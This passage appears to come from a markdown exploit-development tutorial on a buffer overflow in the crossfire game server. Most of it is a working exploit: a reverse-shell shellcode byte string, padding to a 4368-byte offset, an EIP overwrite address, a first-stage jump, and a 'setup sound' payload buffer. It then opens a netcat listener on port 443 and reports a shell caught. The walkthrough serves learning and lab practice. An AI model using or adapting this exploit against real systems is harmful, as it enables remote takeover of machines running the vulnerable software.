 Update the script to include the shellcode

```python
shellcode =  b""
shellcode += b"\xdd\xc3\xbd\xb2\xae\x21\x09\xd9\x74\x24\xf4"
shellcode += b"\x58\x33\xc9\xb1\x12\x83\xc0\x04\x31\x68\x13"
shellcode += b"\x03\xda\xbd\xc3\xfc\x2b\x19\xf4\x1c\x18\xde"
shellcode += b"\xa8\x88\x9c\x69\xaf\xfd\xc6\xa4\xb0\x6d\x5f"
shellcode += b"\x87\x8e\x5c\xdf\xae\x89\xa7\xb7\xf0\xc2\xe6"
shellcode += b"\xc2\x99\x10\x17\xcd\xe2\x9c\xf6\x7d\x72\xcf"
shellcode += b"\xa9\x2e\xc8\xec\xc0\x31\xe3\x73\x80\xd9\x92"
shellcode += b"\x5c\x56\x71\x03\x8c\xb7\xe3\xba\x5b\x24\xb1"
shellcode += b"\x6f\xd5\x4a\x85\x9b\x28\x0c"

padding = "\x41" * (4368 - len(shellcode))
eip = "\x96\x45\x13\x08" # 0x08134596
first_stage = "\x83\xc0\x0c\xff\xe0\x90\x90"

buffer = "\x11(setup sound " + shellcode + padding + eip + first_stage + "\x90\x00#"
```

The script: [final.py](./Scripts/Chapter12/final.py)

Set up a netcat listener on port 443

```bash
nc -nvlp 443
```

![](./img/Chapter12/24.png)

Run the script with crossfile running without the debugger, we get a shell

![](./img/Chapter12/25.png)